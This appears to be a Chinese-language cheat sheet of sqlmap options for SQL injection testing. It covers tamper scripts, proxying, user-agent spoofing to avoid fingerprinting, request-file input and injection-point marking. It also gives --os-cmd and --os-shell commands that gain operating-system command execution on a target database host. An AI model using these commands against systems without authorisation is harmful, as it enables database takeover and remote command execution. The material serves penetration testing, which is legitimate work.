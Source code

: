 ### 简介

|名称|描述|
|:-------------:|--|
|[sqlmap](https://github.com/sqlmapproject/sqlmap)| Automatic SQL injection and database takeover tool|

### tamper详解

根据 [tamper脚本分类汇总 sqlmap_tamper.csv](files/sqlmap_tamper.csv) 中的 数据库类型 与 绕过方式，可选择合适的tamper(或自写脚本)


### 常用参数 - 强制ssl

待测网站通常是https协议 

可能出现404`[CRITICAL] page not found (404)`

加上参数即可`--force-ssl`

（在Host头最后加上`:443`这种办法一般可行但有局限性，实测中有8443端口的https无法用该方法解决）


### 常用参数 - 加快测试速度

指定数据库类型
```
--dbms Oracle
--dbms Mysql
--dbms "Microsoft Access"
```

### 常用参数 - 设置proxy代理流量

格式为：`(http|https|socks4|socks5)://address:port`

如
```
--proxy=socks5://127.0.0.1:1080
```

### 常用参数 - 设置user-agent避免指纹

随机user-agent
```
 --random-agent
```

安卓手机user-agent
```
--user-agent "Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"
```

### 常用参数 - 读取HTTP request文本

sqlmap `-r reqfile.txt` 会自动分析该请求包（如cookie，POST数据 等），可充分测试各处，避免用命令行设置User-Agent等参数

`reqfile.txt`的格式：
```
POST /vuln.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/4.0

id=1
```

### 常用参数 - 用*标记注入点

针对情况：伪静态 等不识别的格式

```
sqlmap -u xxx.com/index.php/Index/view/id/40*.html --dbs
```

-r 也是在请求包文件中的参数值后面加*号

### 参数 - OS命令执行

前提1：数据库为MySQL/PostgreSQL/Microsoft SQL Server

前提2：当前用户有权限使用特定的函数. 在sqlmap中查看权限用 `--privileg`

--os-shell=whoami
```
#--os-cmd=执行系统命令
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-cmd=whoami 
```

--os-shell
```
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-shell #交互式shell
```

实现原理：

在MySQL、PostgreSQL: sqlmap上传一个二进制库，包含用户自定义的函数sys_exec()和sys_eval() 创建的这两个函数可以执行系统命令。

在Microsoft SQL Server: sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。
